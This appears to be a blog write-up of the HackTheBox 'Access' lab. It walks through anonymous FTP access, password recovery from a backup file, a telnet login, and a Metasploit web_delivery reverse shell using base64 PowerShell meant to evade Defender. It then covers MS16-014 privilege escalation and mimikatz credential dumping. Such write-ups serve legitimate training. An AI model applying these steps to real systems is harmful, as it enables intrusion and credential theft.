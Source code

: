 ```yaml
---
layout: post
title: HackTheBox - Access
categories: htb
permalink: /htb-access

---
```


![BoxInfo]({{ site.baseurl }}/assets/htb-images/access/infocard.png)

As always, I am starting off with an Nmap scan to determine open ports. After the scan has completed I will be able to determine my attack vector.

![Nmap]({{ site.baseurl }}/assets/htb-images/access/Nmap.png)

So it looked like that RDP and telnet are open, FTP allows for anonymous login. When I tried to access the FTP service from the browser It seems that i cannot do it, but when I tried to login from the terminal it allowed me ! I was prompted for username so I just used Anonymous for user and blank password, since the header of Nmap output, showed that FTP allows for anonymous access ! There were 2 directories inside FTP service: Backups and Engineer. Backups folder contained a file called "backup.mdb" and folder Engineer contained a zip file "Account Access.zip". I ran strings command on backups.mdb and I found
several interesting things:

admin , administrator, engineer, backup_admin, access4u@security

The last one access4u@security looked more like a password and so I passed it to the zip file: Access Control.zip and it worked so i extracted the file inside. Now the file inside the compressed file had an extension ".pst" so I used a tool called readpst to convert the file and read it with any kind of editor. After I opened the file, I found some information about an account on the system.

![acc_security]({{ site.baseurl }}/assets/htb-images/access/acc_security.png)

I used the found credentials in the Microsoft Telnet Service (port 3389) and it prompted me with a shell. So now I was inside the system and I could run commands.

![telnetaccess]({{ site.baseurl }}/assets/htb-images/access/telnetaccess.png)

After enumerating the system, I didn't find anything, so I decide to upload a windows enumeration script to find something for me. I have immediately discovered that I wasn't allowed to use backspace and arrows to quickly navigate through commands. I have decided to get a meterpreter session, but after trying to get through payload execution on the system it didn't work, so I opted to get a web based reverse shell, using the module 'exploit/multi/script/web_delivery'. What this module will do, is to generate a powershell command, which will be base64 encrypted to evade windows defender and metasploit will also open a web server on my machine so that when I execute the command in the telnet session, the windows box will access my metasploit web server, grab the payload and execute it.

As for the enumeration script, I used Sherlock (made by RastaMouse). This script is going to check for missing patches & software as well as show possible ways of privilege escalation. When the script finished the enumeration, I saw that script has found a common way of privilege escalation in Windows, Secondary Logon Handle, CVE: MS16-032! Once I tested the exploit it did not work, so I would assume at this point that the system was patched against this exploit.

 In Metasploit
 $ use multi/script/web_delivery
 $ set payload windows/x64/meterpreter/reverse_https

 Had some error with this exploit saying its not compatible so running this command fixed it !

 $ set target 2 ----> Sets payload delivery via Powershell
 $ set LHOST  
 $ set LPORT <>
 $ exploit -j

Copy command from metasploit & run on target machine !

![Payload_Delivery]({{ site.baseurl }}/assets/htb-images/access/Payload_Delivery.png)

I now had 2 shells as user 'security', one telnet & one meterpreter session. As MS16-032 did not worked,I have checked to see the closest exploit to date to MS16-032 and it was the MS16-014. Metasploit has a post exploitation module which uses this exploit to escalate privileges.

 In Metasploit after I get shell !

 $ meterpreter> background
 $ search ms16-014
 $ use exploit/windows/local/ms16_014_wmi_recv_notif
 $ set session 1
 $ exploit

![MS16-014MSFpostModule]({{ site.baseurl }}/assets/htb-images/access/MS16-014MSFpostModule.png)

This privilege escalation exploit spawned me in shell session instead of in meterpreter as NT_AUTHORITY user, so I quickly changed it to a meterpreter session using a post module.

 Switch from Shell -> Meterpreter

 $ctrl + z
 $ use post/multi/manage/shell_to_meterpreter
 $ set LHOST  
 $ set LPORT <>
 $ set session 2
 $ exploit

![System-Meterpreter]({{ site.baseurl }}/assets/htb-images/access/System-Meterpreter.png)

At this point, I tried to read the flag, but with no luck! Interestingly enough, I wasn't able to do because I didn't have permission and I was NT_AUTHORITY so it was really weird. My attempt to this was to grab the password for the Administrator user using mimikatz (developed by gentlekiwi). I uploaded the tool, and ran it, and I grabbed the password for user Administrator. After this, I opened another telnet session and logged in as Administrator and now I was able to read the root flag!

![MimikatzGetPasswds]({{ site.baseurl }}/assets/htb-images/access/MimikatzGetPasswds.png)

![Gotroothash]({{ site.baseurl }}/assets/htb-images/access/Gotroothash.png)